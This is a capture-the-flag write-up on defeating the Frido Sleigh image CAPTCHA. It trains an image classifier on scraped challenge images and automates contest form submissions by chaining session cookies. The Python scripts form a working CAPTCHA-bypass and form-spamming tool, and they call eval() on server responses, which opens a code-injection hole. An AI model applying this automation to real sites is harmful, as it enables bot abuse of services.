








# Frido Sleigh Continuous Cookie CAPTEHA Challenge
https://fridosleigh.com/

## Initial Web Form Exploration

The form takes in a few fields, and requires the user to solve a CAPTEHA to prove that they are elf and not human. Trying to bypass the CAPTEHA by simply setting the checkbox DOM element to `true` does not allow the form to be submitted, so the server receiving the form submmission is probably validating that the user has indeed solved the CAPTEHA.

Trying to solve the CAPTEHA normally is technically impossible as the CAPTEHA task involves choosing a fraction of the 100 loaded images that are any one of the three objects the CAPTEHA is looking for within a 5 second time limit.

## Understanding The CAPTEHA API

### RTFM
Reading the *-cough-* full manual for the CAPTEHA, we read that the user will only need to solve the CAPTEHA once for a particular session cookie.

### Looking at the Web Request
If we look at the web requests when we click on the CAPTEHA checkbox, we see that the browser makes a POST request to `/api/capteha/request` without any data. 



The response we get back from the server is a JSON object with a bunch of `uuid` keys with Base64-encoded string values, as well as a `select_type` key that tells us what are the three objects that the API is asking for.



If we click on a few of the CAPTEHA pictures and click `Submit` in the CAPTEHA popup, we see that our browser sends a request to `/api/capteha/submit` with the body of `answer=<uuid_01>%2C<uuid_02>%2C...<uuid_N>`. It looks like the browser sends back the `uuid` of the pictures we have selected, delimited by `%2C`, which is the URL-encoded form of `,`.



Since we just randomly selected images and haven't actually solved the CAPTEHA, we get a response back that tells us that we have selected either too few or too many imgaes.



### Trying to Cheat the Timer
We can try to not play by the rules that we assume are set by the browser, namely the 5 second constraint so that we have enough time to select the correct images. The moment the CAPTEHA popup appears, we can select the timer DOM element and set the timer to something bigger, such as 5000 seconds.



Doing this, we see that the CAPTEHA popup does not close after 5 seconds, so we have all the time we need to solve the CAPTEHA.

However, since it would take longer than 5 seconds to solve the CAPTEHA, we get back a response telling us that our request has timed out.


So we can't just cheat the timer, and so we will need ot deal with the CAPTEHA head on. If we can't do this fast enough, maybe our computer can do it for us.

## Machine Learning To Defeat CAPTEHA

Machine Learning is the use of mathematical models that are built (or trained) with some data to make predictions. There is some math behind all of this, but it is essentially like training a dog, and the data you give the ML model is like experience for the model to learn from. The model will try to math out the correct answer for the data given, and if it got it right, you say "Good Job!" and the model says "Cool, I will continue to behave the same way!". If the model got it wrong, you say "The correct answer is supposed to be X.", and the model says "Okay, I will need to make some adjustments to how I understand things.". After several of these situations, the model gets better and better at predicting the right answer given a similar situation.

For CAPTEHA, we want our model to be able to classify each of the 100 images in the popup so that it can tell us which object each `uuid` is supposed to be, allowing us to then select the correct subset of `uuid` strings to send back to the server.

Thankfully, we don't need to do this from scratch. Chris Davis from Counter Hack has created a <a href='https://www.github.com/chrisjd20/img_rec_tf_ml_demo'>python tool</a> that is able to build a model for us and then use that model to predict the categories of unknown images that it knows how to classify.

### Training The Model

In order to train the model, we will need to supply it with sample images, the more the better. There are a few ways to get the sameple images, but the way I did it was to grab images from `/api/capteha/request` using a <a href='src/get_capteha_images.py'>python script</a>, and then classify all images manually.

```
# get_capteha_images.py

import requests
import base64

uuids = []
base64s = []

for i in range(1):
	req1 = 'https://fridosleigh.com/api/capteha/request'
	res1 = requests.post(req1)
	print(res1.headers['Set-Cookie'].split(';')[0])
	res1 = eval(res1.content.decode('utf-8').replace('true', "True"))
	uuids += [i['uuid'] for i in res1['images']]
	base64s += [i['base64'].encode('utf-8') for i in res1['images']]

counter = 0
for b64 in base64s:
	counter += 1
	with open("unknown_images/%s.png" % counter, "wb") as image:
		image.write(base64.b64decode(b64))
```

After classifying the images, my `training_images` folder looks like this.

```
~/img_rec_tf_ml_demo/training_images$ ls *
'Candy Canes':
109.png  138.png  16.png   21.png  27.png  34.png  48.png  78.png  95.png
111.png  14.png   17.png   22.png  2.png   40.png  50.png  80.png  97.png
11.png   158.png  181.png  23.png  32.png  41.png  53.png  87.png  99.png
12.png   162.png  193.png  24.png  33.png  45.png  73.png  91.png

'Christmas Trees':
102.png  124.png  136.png  150.png  163.png  174.png  187.png  54.png  89.png
104.png  128.png  141.png  156.png  165.png  182.png  195.png  58.png
115.png  130.png  147.png  157.png  170.png  184.png  196.png  59.png
120.png  133.png  149.png  160.png  172.png  186.png  31.png   63.png

Ornaments:
101.png  118.png  142.png  176.png  198.png  26.png  65.png  74.png  90.png
106.png  122.png  153.png  178.png  199.png  36.png  66.png  76.png  92.png
107.png  123.png  161.png  179.png  1.png    39.png  68.png  77.png  94.png
113.png  125.png  167.png  188.png  200.png  55.png  69.png  79.png  96.png
114.png  129.png  169.png  194.png  20.png   57.png  6.png   83.png  98.png
117.png  137.png  171.png  197.png  25.png   64.png  72.png  86.png  9.png

Presents:
105.png  121.png  134.png  151.png  159.png  173.png  185.png  37.png  88.png
108.png  127.png  135.png  152.png  164.png  175.png  189.png  42.png
112.png  131.png  145.png  154.png  166.png  177.png  191.png  4.png
119.png  132.png  146.png  155.png  168.png  183.png  28.png   85.png

'Santa Hats':
103.png  126.png  148.png  190.png  47.png  7.png
116.png  139.png  18.png   38.png   56.png  93.png

Stockings:
100.png  140.png  180.png  30.png  44.png  52.png  62.png  75.png  8.png
10.png   143.png  192.png  35.png  46.png  5.png   67.png  81.png
110.png  144.png  19.png   3.png   49.png  60.png  70.png  82.png
13.png   15.png   29.png   43.png  51.png  61.png  71.png  84.png
```

 Chris' code takes the label names (or categories) to be the folder names in the `training_images` folder, so we made sure to name the folders exactly as how they would appear in the server response.

 We then run the following command to build a trained model.

`sudo python3 retrain.py --image_dir ./training_images/`

Once the program is done, our train model is then saved in the `/tmp` directory.

### Testing The Model

Getting 100 new images using `get_capteha_images.py` and saving them to the `unknown_images` directory, we can then run the following command to have the model do the prediction for us.

`sudo python3 predict_images_using_trained_model.py`

The output should print out something like the following.

```
TensorFlow Predicted unknown_images/100.png is a Presents with 99.97% Accuracy
TensorFlow Predicted unknown_images/14.png is a Santa Hats with 99.64% Accuracy
TensorFlow Predicted unknown_images/19.png is a Presents with 92.94% Accuracy
TensorFlow Predicted unknown_images/1.png is a Presents with 99.62% Accuracy
TensorFlow Predicted unknown_images/16.png is a Presents with 99.80% Accuracy
TensorFlow Predicted unknown_images/13.png is a Ornaments with 99.99% Accuracy
...
```

If we inspect the images, we should see that the model has correctly labelled the images. If it makes some mistakes, it could be due to a variety of reasons. You may want to check on a few things:

1. Were the training images in the `training_images` directory correctly labelled?
2. Are there enough training data? I used 200 training images, but your mileage may vary.

If you have gotten this far, great! All we need to do now is to put everything together to grab the Base64-encoded images, run them through our model, and then spit the answers back to the server.

### Automating The Attack

In order to do this, I made some modifications to the `predict_images_using_trained_model.py` and saved them in `predict_images_using_trained_model_edited.py`, bearing in mind that the thing we are interested in if we are successful is the final session cookie.

The main edits are:
1. ```def get_images():
    req = 'https://fridosleigh.com/api/capteha/request'
    res = requests.post(req)
    cookie = res.headers['Set-Cookie'].split(';')[0]
    res = eval(res.content.decode('utf-8').replace('true', 'True'))
    os.system('rm unknown_images/*')
    for image in res['images']:
        with open("unknown_images/%s.png" % image['uuid'], "wb") as f:
            f.write(base64.b64decode(image['base64']))
    s = res['select_type']
    import re
    pattern = r'^([\w\s]+), ([\w\s]+), and ([\w\s]+)$'
    mask = re.compile(pattern)
    return list(mask.findall(s)[0]), cookie```
2. ```def send_answer(answers, headers):
    req = 'https://fridosleigh.com/api/capteha/submit'
    body = 'answer=%s' % '%2C'.join(answers)
    print(body)
    res = requests.post(req, data=body, headers=headers)
    print(res.content)
    print(res.headers['Set-Cookie'].split(';')[0])```
3. We added `tags, cookie = get_images()` to the beginning of `main()` to grab the new unknown images.
4. Instead of printing out the predicted labels, we save the list of `uuid` we are interested in to `answers` using `answers = [i['img_full_path'].split('/')[-1].split('.')[0] for i in prediction_results if i['prediction'] in tags]`.
5. We then pass `answers` and `headers` (which contains the `cookie` from the server response in `get_images()` and the necessary `Content-Type` for the server to accept our request) to `send_answer` by adding the line `send_answer(answers, headers)`
6. Lastly, in order for us to do some sanity checks, we saved `prediction_results` into `output.json`.

If all works, we should see our python script requesting for the images, decoding the Base64, predicting the labels, selecting the correct subset of `uuid`, and sending it back to the server.

However, chances are that unless you were using a particularly beefy computer, the code would have still taken more than 5 seconds. Yes, it definitely did the job faster than we could, but it still took about 8 to 10 seconds to do the prediction.

### Beating The Timer

Thankfully, the answer to this is not to get a more powerful computer. Instead we should think about optimizing our ML model. If we dig into `retrain.py`, we see the following lines.

```
By default this script will use the highly accurate, but comparatively large and
slow Inception V3 model architecture. It's recommended that you start with this
to validate that you have gathered good training data, but if you want to deploy
on resource-limited platforms, you can try the `--tfhub_module` flag with a
Mobilenet model. For more information on Mobilenet, see
https://research.googleblog.com/2017/06/mobilenets-open-source-models-for.html
```
```
parser.add_argument(
      '--tfhub_module',
      type=str,
      default=(
          'https://tfhub.dev/google/imagenet/inception_v3/feature_vector/3'),
      help="""\
      Which TensorFlow Hub module to use. For more options,
      search https://tfhub.dev for image feature vector modules.\
      """)
```
If we browse to https://tfhub.dev/google/imagenet/inception_v3/feature_vector/3, we see that the model has 2048 features (!) and expects the input image size to be 299x299 pixels. Alternatively, if we look at https://tfhub.dev/google/imagenet/mobilenet_v1_100_224/feature_vector/3, we see that the number of neurons (or features) is only 100, and Chris has helpfully explained in his code that the number of weights shrinks with the square of the fraction. The image size is also smaller at 224x224 pixesl, making the prediction faster. The tradeoff here is accuracy since the model would have less to go on when predicting, but given the relative simplicity of the images, we could afford to sacrifice some accuracy if it means we can halve the computation time.

We retrain our model using a different `tfhub_module` using the appropriate flags. We also specify `how_many_training_steps` to be smaller than the default 4000 to train the model faster as we observe that the accuracy is already pretty good after the first few hundred training steps.
`sudo python3 retrain.py --image_dir training_images/ --tfhub_module https://tfhub.dev/google/imagenet/mobilenet_v1_100_128/feature_vector/3 --how_many_training_steps 1000`

The final thing we must do is to modify `predict_images_using_trained_model_edited.py` such that the input images are resized correctly. In our case, we selected a model that accepts input images of sixe 128x128 pixels. Hence, we make the appropriate ammendments to the `read_tensor_from_image_bytes` function in `predict_images_using_trained_model_edited.py`.

`read_tensor_from_image_bytes(imagebytes, input_height=128, input_width=128, input_mean=0, input_std=255)`

Now if we do `sudo python3 predict_images_using_trained_model_edited.py` again, we should observe the model being much faster than before, and we should see the following response.

```
b'{"data":"You are not a human!","request":true}\n'
session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoiSzlNMlZJSFo3Y3NwNUNIblM5UVVWZzFTVjR5TldlOXU2cVc2S3pnTkZ0cXpVS2NLZXUybHhsZ3lJbG9BYm1DOExydmZpYy92MGp3QlUveDhKZmRHelk3UitTbGkxajFRalMvcFpPdTl6SGluc3QwaCtkbjN6RFhQWGZzZ2pDMUpFd0NyMHIwOVBwZ1c1a0VkTThLekNpWFUrWXB6Ti8yRi9OWWVyMmVqeFp1VHNodUlkaFhudE04TTk2MXZzYXJjbkM2YVZBOUpaYkdZNGNSOVVCM2pyZEIxQ1RDQXMxR1hTaEhncE15MGpyTnRSbHJ2TXFYcG4za0x4VzF0aWpzY1ErVjVja3pZVFE0NkFyUG9Nd2FObm9qV1owMXAvMExxcDJkWlhMeVJCVUVaMHZPY20vWDFvU2lUc0ZvOVJITXlwZjNFUGtEclBqOUNIQk52N3BEZE1HN2gwcEVlTW9lemlsYXJtK1U2eGVKSFNZSFk4b3J6MFVPSFhQSFBJb2lUbDBPZjZVak9maDNJdUg4K3AxY280eHVKbVdwdUZiNzhNckpJN1JnNFM2dm4weEFTWjZvbUJPSHB6T1RyRExEN0tWclJnRTNkc3hwVGQ5MldJNmZ6ODlDelI2amt4eUJnMmhLbCtjUGFBNFluZHQ3dm9PaGEra0NQYkVXUE8vTnRkNzhhcnlNd2d2eTRtUTlqbWJWRUpkUno1YXdKOU1vOHhuWEM5bWRzNDUvUDh3VmNhL3dDOGZYOWpMVy8xU3crcnNxV2JWTWVMakhNbHl4RFp0YWtyaTQ1U0tSUU5tUVRQNDRpRGpTZmtaWW5rRTdRZ3FsVlVqc2NLTlZFaldTc3JwWHFTNGp6Z1hBYkpyU053VG9scmVBUFdxOVFoUGZTcG1reVF0T2pKK0kwOTBzZlhXVmRUQUxBVnVHc1g2RkNlQlhZQ1hFWUdZKzlQaVBRZVdPRVQxendnWGVWMHhWZ2hIY3dPQkc1VWlPNVRLRERGR05FQ2VlRFJ6ZHpjV3dDVVUwUk0zNWI1bWY0SmZ5Wm9FWTN6S2ExT3psc2FCelR1c3NoNDVwZDA3UUdBa2JnMUgydXluUUtub3J4dHVOWTJvajRHUXppdFBHc3JaOWd5WTVBakZJZ0s2L2IwWU5mSm43T2hzamN3bEV6Q1ZyMnNwemYwNWxBbUl0aXVNaS9aOUJkenpRL2U1K2R1dzZIOHNlZTEyTjE3S2NqS0hQSGMva0tRTGNFTUZYSTJIZWdwRWxIRWNPS2hZYU9PcE8vT0JDQituQkNMRmtuQVJCUUtzTzltbHNYRmNMUTFpeExMVDMySU04Y2hRVVMyaDdrTmd4bTNtTXhac0hNeW5meG9BV1FGTEdPZ3ovaWk4OFo5cmhXZWx2UXZ3MFdHeWw2U1lBUkFzclIwNEF0MjNUMDhIVTJ2WmZuc2ZOdnc0ZWlNdFJ1a0VIc3l1MHdFTExWZllHbC9BclJDZTdnNFdkaDc4UTB5dkRXUW1zRnhnNjg2dnI4SWZjSW1vRjlxYmJycWJHUm01aEErYmRjUTdYNWs0RU5CdExGWUM4STF2M2Q0U0FEQllxZGlGOD0ifQ.HrA91cdbu__b5jTxFDgo04v54nyhZ9JvpQLqcKypLKY
```

Great! We have successfully defeated the CAPTEHA!

## Winning The Lottery

We have successfully defeated the CAPTEHA, but there is still more to be done in order to grab the flag. The form says that we can keep submitting the form and winners will be notified by the email that was submitted if we are the lucky elf selected. Luck doesn't really seem to be what decides if we have won, but if we simply use the session cookie that has defeated the CAPTEHA, we receive a response mentioning how many entries we have submitted.



Refreshing the page, we see that the CAPTEHA is already automatically checked, and we can submit the form again.

We can keep doing this manually, and hope that eventually we will get the flag, but we don't know how many tries it will take. Instead, we should further automate the form submission until we somehow know that we won.

If we keep submitting forms with the same session cookie, we realise that
the number of form submissions registered by the server stays at 1. So it must be keeping track of multiple submissions some other way. Looking at the challenge title of "Continuous Cookie", we see that the server's respnse always comes with a `Set-Cookie` header with a new cookie.


So if we keep following the cookie chain, and simply replace the cookie each time, we should be able to automate the whole process. The following <a href='src/submit_form.py'>python script</a> does just that.

```
# submit_form.py

import requests
import bs4

INITIAL_COOKIE = 'session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoia1lIL0hxWHVZRkhuRGNCNW54K3BpQkFkNzlpaUpVaFYvNkdDOHVtOFVCOUZSZlVaSVRNUm10bUF6SVR3WnRZU3pnZ3NtQ1krVXlUNVFwSTBuVE13S25pUEgyNGxaUFFHOHpuVTFFdDVvckFYV2J1Yi96Y0szM0dvendLZVBZcTJTZ0V5QWJxVE5WTU5vNEhzeVpzUXIrZ2pnc2VUdEwwb0psS0ZReFVndk9SWGN2ZkFLc2RXQTd1ajRPTXd4KzAvRXo4TXJEVUJ2eHNVOFZqTjVhWHZ0Z3JXNUtOM1ByN2xoTW1YeTdLMGZiMlJ2aUxqWnltNzNWNXNRUUVwa3QvRVA0U1V4OU1VNE4zbXZ0NmJ0dHFaOHhSWGx0eUVjNk9mQUZ6b05aVzZHOGNTZzhSUG10TlM5WGJJdlJCc3hjd280QTkzdXcyUnNpRkE1dkpmYnpRdC93WTB6ZDVkR25VV3JtZkpnaFNXekxTeVNxN2VkQkM4RFBubWt2azZtbWxIb2FVWXJFKzZmMG9UaUNLOGN2OWZEbmtqWEN0cnY2WW9UbzZaUW1mNStSbHVJdURxUXdEb0JORTRITm5Zb3g4NkVmUlpNY1E4SEU3bEhiM0V3a1V3MmNMLzhBcXhGbE5FMkFCc1RJdWpxc05jc0RtZ0ZqVTZtM2Fwci9TRDA0MUd4VTBNeEJnUkdud2t4VjkzdnR1SS82Z0pTMlAxV3R0Y0g1T1BiZkQ5L2VVdTNYekJLL1BCS0YwNUZuT3d2NUw1dmYrNmJYS2Z5Qi8zYWxMbmlTcmVrN1B5ZmdDQUw0cERoYitzUnY1Z0xwYjNVOW40U2VZQW5UUmVxWWVqazliSlF2UTlNUWFMWS91VEZOZHNuRy96M2xONGdHRjExa0Y1b0czQVg2V0VDUjN1ODVBU2lTTzhySDdJL0IzWk9ISjd0TW0reHlEZUZEWkVseEVEdXpGVStKVXhFMmZBR2RudU1LMktFYXFxSlU5VWlUS3pveGhiV29BNEprVEVkbDVYeGZObzFUVHY1RDVrYngwSytFOG14VFRBbm5uYXdRQTNSd2pzTkpHQ0RnendFZDNGYWlLV1ZBVE1lY2oyVG1TVVF4eHB6Q1I2U1RNNjUzV21qaktnZ29oUkIxY2kyWk5FUnQxbVZtODgweE9sNThMNlJhMzh5cmUybk1uQStDTW1iY0NZQWxaUTBBVnlrblVwVmk1bVV6RzBpV08xS0pFV3hqQVhZb1FiVktWLzNJUWo3Q1NaYkdjZk56SnF5Tkc4SGNPVDVBZndiWDBudE9OR2FiYTZqOVhHS1Q1elZBUmtDcWtCNkN3eklyamY2TXpuamdaQks1Ymxtc2lEQ1A0RytVZFFHWGljWWJ3WDNBYjlsRVhFdmhqem05UExDM2RDMjVpb3BUQ3VhUHRHdTdWWUhCbnduSVNCWGhnRFR0VVNpdWN2VGRxbzhyWlBJendlT1NRSXFIcENDRDRvUDVDUnp0MlJXdVFsYWZ0Y2lKRWx0Q2E3SXlraVpML1NqWldTQzIvR0xycmFDQjVrQ3YzVmdPRjdRdldlOHllUU03RU82bkkyRUs1am1zcz0ifQ.KEtKfP9ZMoutsPKABCI4z0fgxeEm8KBQsw9C6cPdolo'
EMAIL = 'xxx@example.com'

cookie = INITIAL_COOKIE
while True:
  req = 'https://fridosleigh.com/api/entry'
  data = 'favorites=cupidcrunch%2Csugarcookiesantas%2Cdosidancers%2Cprancerspeanutbutterpatties&age=180&about=I+love+cookies&email=' + EMAIL +'&name=special_elf'
  headers = {'Cookie': cookie, 'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
  res = requests.post(req, data=data, headers=headers)
  html = bs4.BeautifulSoup(res.content, 'html.parser')
  print(html)
  cookie = res.headers['Set-Cookie'].split(';')[0]

```

By around the 100th form submission, you should receive an email with the flag.




